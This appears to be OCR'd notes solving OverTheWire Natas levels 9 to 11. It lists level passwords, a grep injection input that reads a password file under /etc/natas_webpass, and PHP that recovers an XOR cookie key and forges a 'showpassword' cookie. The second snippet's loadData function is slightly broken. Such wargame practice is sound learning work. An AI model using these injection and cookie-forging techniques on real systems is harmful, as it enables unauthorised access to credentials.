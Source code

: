9 W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

10 nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

    grep -i [a-zA-Z] /etc/natas_webpass/natas10

11 U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

```php

    $defaultdata = array( "showpassword"=>"no", "bgcolor"=>"#ffffff");  
    $data= 'ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw';  
    
    function xor_encrypt($in,$out) {  
        $key ='' ;  
        $text = $in;  
        // Iterate through each character  
        for($i=0;$i<strlen($text);$i++) {  
            //$outText .= $text[$i] ^ $key[$i % strlen($key)];  
            $key .= $text[$i] ^ $out[$i];  
        }  
    
        return $key;  
    }    

    echo xor_encrypt(json_encode($defaultdata),base64_decode($data));  
    
```

qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq

```php
<?  
  
$defaultdata = array( "showpassword"=>"yes", "bgcolor"=>"#ffffff");  
  
function xor_encrypt($in) {  
    $key = 'qw8J';  
    $text = $in;  
    $outText = '';  
  
    // Iterate through each character  
    for($i=0;$i<strlen($text);$i++) {  
    $outText .= $text[$i] ^ $key[$i % strlen($key)];  
    }  
  
    return $outText;  
}  
  
function loadData($def) {  
    $mydata = $def;  
    $tempdata = json_decode(xor_encrypt(base64_decode($data)), true);  
    return $mydata;  
}  
  
echo  base64_encode(xor_encrypt(json_encode(loadData($defaultdata))))   
  
?> 

```
